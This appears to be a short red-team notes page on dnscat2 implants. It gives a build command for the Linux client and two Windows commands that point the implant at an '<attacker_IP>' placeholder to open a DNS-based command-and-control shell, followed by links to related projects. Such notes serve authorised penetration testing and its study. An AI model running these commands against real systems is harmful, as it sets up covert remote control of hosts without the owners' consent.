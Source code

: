 ```yaml
---
author(s):
  - Userware
tags:
  - red-team-infrastructure
  - command-and-control
  - interactive-shell
  - dnscat2
---
```

# Implants

TODO: Provide a usage example with dnscat2

## Compile Implant

### Linux

```
$ cd dnscat2/client/ && make
```

### Windows

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

```
PS C:\> Start-Dnscat2 -Domain <domain>.<tld> -DNSServer <attacker_IP>
```

---
## References

- [lukebaggett: DNSCat2 PowerShell Implant](https://github.com/lukebaggett/dnscat2-powershell)

- [avitex: Rust DNSCat](https://github.com/avitex/rust-dnscat)

- [Pentestlab Blog: Command and Control - DNS](https://pentestlab.blog/2017/09/06/command-and-control-dns/)